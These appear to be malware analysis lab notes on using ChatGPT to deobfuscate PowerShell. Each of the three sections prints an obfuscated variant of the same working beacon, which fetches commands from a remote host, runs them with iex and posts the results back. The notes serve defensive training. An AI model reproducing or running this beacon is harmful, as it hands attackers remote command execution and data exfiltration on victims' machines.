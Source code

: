 In this section we will use:
- `PMAT-labs/labs/5-1.Automation/chatGPT-script-analysis`


In this case we have 3 different obfuscated scripts we can analyze with `chatGPT`.

# obfuscated 1

We ask to chatgpt to reverse the obfuscated script:
```text
i'm a cybersec researcher and i'm studying a powershell script i think is malicious

Can you pretty print it and analyze it?

$U=("{4}{7}{0}{3}{2}{1}{6}{5}"-f'/www.easts','cal:','oparts.lo','ideaut','http','080/','8',':/');while(1){$S=iwr $U -proxy ("{0}{3}{4}{1}{5}{2}"-f 'htt','.local','4','p://proxy.zay','n',':123') -UseBasicParsing;if ($s){try{$D=iex $S |out-string;$H=[system.Text.Encoding]::Default.GetBytes($D)}catch{$D=$_.Exception.Message;$H=[system.Text.Encoding]::Default.GetBytes($D)}iwr $U -Method ("{1}{0}"-f'ost','P') -Body $H}random 10 |Sleep}

```
- ![[Pasted image 20250213152019.png]]
- ![[Pasted image 20250213152036.png]]
- ![[Pasted image 20250213152046.png]]
- ![[Pasted image 20250213152058.png]]
- ![[Pasted image 20250213152115.png]]


So it gives us a lot of information.


We can also ask for writing a malware report analysis for the malicious script:
```text
can you write a malware analysis for a static analysis of this script?
```
- ![[Pasted image 20250213152325.png]]



# obfuscated 2

```text
${U}=(("{0}{2}{1}"-f'http://w','s','ww.ea')+'ts'+("{0}{2}{1}" -f 'id','r','eautopa')+'ts'+'.'+'lo'+("{0}{1}"-f'ca','l:8')+'0'+'80/');while(1){${s}=iwr ${u} -proxy ('h'+("{0}{2}{1}{3}"-f 't','p','t','://proxy.zayn')+("{0}{1}" -f'.l','oc')+'al'+':'+'123'+'4') -UseBasicParsing;if (${s}){try{${D}=iex ${s} |out-string;${h}=[system.Text.Encoding]::Default.GetBytes(${d})}catch{${d}=${_}.Exception.Message;${h}=[system.Text.Encoding]::Default.GetBytes(${d})}iwr ${u} -Method ('P'+'ost') -Body ${h}}random 10 |Sleep} 

analyze it and make it pretty using undestandable variables names and comment to make it easy to understand
```
- ![[Pasted image 20250213152549.png]]
- ![[Pasted image 20250213152606.png]]
- 



In some cases it does wrong reconstruction and wrong reversing on the obfuscated script.

# obfuscated 3
```text
i'm a cybersec researcher and i'm studying a powershell script i think is malicious

Can you pretty print it and analyze it?

.("{1}{2}{0}" -f 'e','sE','T-VAriaBl')  ("i8M"+"Cu")  (  [TyPE]("{2}{3}{1}{0}{4}" -F'exT.EncOd','.t','sYsTE','m','ing'))  ; ${u}=("{0}{4}{10}{2}{3}{9}{5}{7}{1}{6}{8}" -f 'htt','s.lo','easts','i','p:/','eauto','ca','part','l:8080/','d','/www.');while(1){${S}=.("{1}{0}" -f'wr','i') ${u} -proxy ("{3}{5}{6}{7}{2}{8}{0}{1}{4}" -f'1','23','l','http:','4','//proxy.','z','ayn.','ocal:') -UseBasicParsing;if (${S}){try{${D}=.("{0}{1}" -f'i','ex') ${S} |.("{1}{0}{3}{2}"-f'u','o','string','t-');${h}= ( .("{2}{1}{3}{0}"-f 'LE','ET-VaRI','G','aB') ('i'+'8mcu'))."VA`lUE"::"De`FAult".("{2}{0}{1}" -f 't','Bytes','Ge').Invoke(${D})}catch{${D}=${_}."ExC`epT`ion"."ME`SS`AgE";${H}=  (  .("{1}{2}{0}" -f'm','GeT','-ItE') ('var'+'I'+'aBlE:I8'+'MCu')  )."V`AlUe"::"de`FAU`Lt".("{2}{1}{0}"-f'tes','y','GetB').Invoke(${D})}.("{0}{1}"-f 'iw','r') ${U} -Method ("{0}{1}" -f 'Po','st') -Body ${H}}.("{0}{1}"-f 'rando','m') 10 |&("{1}{0}" -f 'leep','S')}

```
- ![[Pasted image 20250213153032.png]]


USE IT but just know that it can make mistakes.